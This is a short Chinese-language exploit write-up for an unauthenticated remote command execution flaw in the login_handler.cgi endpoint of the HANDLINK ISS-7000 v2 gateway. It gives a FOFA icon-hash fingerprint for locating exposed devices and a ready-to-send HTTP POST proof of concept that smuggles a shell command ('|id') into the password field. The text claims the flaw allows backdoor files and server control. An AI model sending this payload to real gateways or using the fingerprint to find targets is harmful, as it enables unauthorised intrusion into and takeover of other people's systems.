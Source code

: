 # HANDLINK-ISS-7000v2网关login_handler.cgi未授权RCE漏洞

瀚霖科技股份有限公司ISS-7000 v2网络网关服务器 /login_handler.cgi接口存在远程命令执行漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系统命令，写入后门文件，获取服务器权限。

## fofa

```javascript
icon_hash="-842942564"
```

## poc

```javascript
POST /login_handler.cgi HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Content-Type: application/x-www-form-urlencoded
Connection: close

username=admin&password=admin|id&uilng=3&button=%E7%99%BB%E5%85%A5&Signin=
```

![image-20241108205108398](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411082051455.png)